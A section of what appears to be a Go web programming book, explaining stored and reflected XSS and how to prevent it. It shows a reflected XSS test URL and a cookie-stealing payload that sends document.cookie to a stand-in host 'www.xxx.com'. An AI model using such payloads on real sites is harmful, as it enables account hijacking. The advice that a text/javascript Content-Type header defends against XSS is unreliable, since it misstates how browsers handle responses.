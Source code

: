 # 9.3 XSS attacks

With the development of Internet technology, web applications are often packed with dynamic content to improve user experience. Dynamic content is content that reacts and changes according to user requests and actions. Dynamic sites are often susceptible to cross-site scripting attacks \(often referred to by security experts in its abbreviated form, XSS\), something which static websites are completely unaffected by.

## What is XSS

As mentioned, the term XSS is an acronym for Cross-Site Scripting, which is a type of attack common on the web. In order not to confuse it with another common web acronym, CSS \(Cascading Style Sheets\), we use an `X` instead of a `C` for the cross in cross-site scripting. XSS is a common web security vulnerability which allows attackers to inject malicious code into webpages. Unlike most types of attacks which generally involve only an attacker and a victim, XSS involves three parties: an attacker, a client and a web application. The goal of an XSS attack is to steal cookies stored on clients by web applications for the purpose of reading sensitive client information. Once an attacker gets ahold of this information, they can impersonate users and interact with websites without their knowledge or approval.

XSS attacks can usually be divided into two categories: one is a stored XSS attack. This form of attack arises when users are allowed to input data onto a public page, which after being saved by the server, will be returned \(unescaped\) to other users that happen to be browsing it. Some examples of the types of pages that are often affected include comments, reviews, blog posts and message boards. The process often goes like this: an attacker enters some html followed by a hidden `<script>` tag containing some malicious code, then hits save. The web application saves this to the database. When another user requests this page, the application queries this tainted data from the database and serves the page to the user. The attacker's script then executes arbitrary code on the client's computer.

The other type is a reflected XSS attack. The main idea is to embed a malicious script directly into the query parameters of a URL address. A server that immediately parses this data into a page of results and returns it \(to the client who made the request\) unsanitized, can unwittingly cause the client's computer to execute this code. An attacker can send a user a legitimate looking link to a trusted website with the encoded payload; clicking on this link can cause the user's browser to execute the malicious script.

XSS present the main means and ends as follows:

* Theft of cookies, access to sensitive information.
* The use of embedded Flash, through crossdomain permissions, can also be used by an attacker to obtain higher user priviledges. This also applies for other similar attack vectors such as Java and VBScript. 
* The use of iframes, frames, XMLHttpRequests, etc., can allow an attacker to assume the identity of a user to perform administrative actions such as micro-blogging, adding friends, sending private messages, and other routine operations. A while ago, the Sina microblogging platform suffered from this type of XSS vulnerability.
* When many users visit a page affected by an XSS attack, the effect on some smaller sites can be comparable to that of a DDoS attack.

## XSS principles

Web applications that return requested data to users without first inspecting and filtering it can allow malicious users to inject scripts \(typically embedded inside HTML within `<script>` tags\) onto other users' browsers. When this malicious code is rendered on a user's browser without first having been escaped from, the user's browser will interpret this code: this is the definition of an XSS attack, and this type of mistake is the leading cause of XSS vulnerabilities.

Let's go through the process of a reflective XSS attack. Let's say there's a website that outputs a user's name according to the URL query parameters; access the following URL `http://127.0.0.1/?name=astaxie` will cause the server to output the following:

```text
hello astaxie
```

Let's say we pass the following parameter instead, accessing the same url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`. If this causes the browser to produce an alert pop-up box, we can confirm that the site is vulnerable to XSS attacks. So how do malicious users steal cookies using the same type of attack?

Just like before, we have a URL:

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`

By clicking on this URL, you'd be sending the current cookie to the specified site: `www.xxx.com`. You might be wondering, why would anybody click on such a strange looking URL in the first place? While it's true that this kind of URL will make most people skeptical, if an attacker were to use one of the many popular URL shortening services to obscure it, would you still be able to see it? Most attackers would obfuscate the URL in one way or another, and you'd only know the legitimacy of the link after clicking on it. However by this point, cookie data will have already been sent to the 3rd party website, compromising your sensitive information. You can use tools like Websleuth to audit the security of your web applications for these types of vulnerabilities.

For a more detailed analysis on an XSS attack, have a look at the article: "\[ Sina microblogging XSS event analysis \] \([http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)\)"

## How to prevent XSS

The answer is simple: never trust user input, and always filter out all special characters in any input data you may receive. This will eliminate the majority of XSS attacks.

Use the following techniques to defend against XSS attacks:

* Filter special characters

One way to avoid XSS is to filter user-supplied content. The Go language provides some HTML filtering functions in its `text/template` packge such as `HTMLEscapeString` and `JSEscapeString`, to name a few.

* Specify the content type in your HTTP headers 

`w.Header().Set("Content-Type","text/javascript")`

This allows client browsers to parse the response as javascript code \(applying the neccessary filters\) instead of rendering the content in an unspecified and potentially dangerous manner.

## Summary

Introducing XSS vulnerabilities is a very real hazard when developping web applications. It is important to remember to filter all data, especially before outputting it to clients; this is now a well-established means of preventing XSS.

## Links

* [Directory](preface.md)
* Previous section: [Filter inputs](09.2.md)
* Next section: [SQL injection](09.4.md)

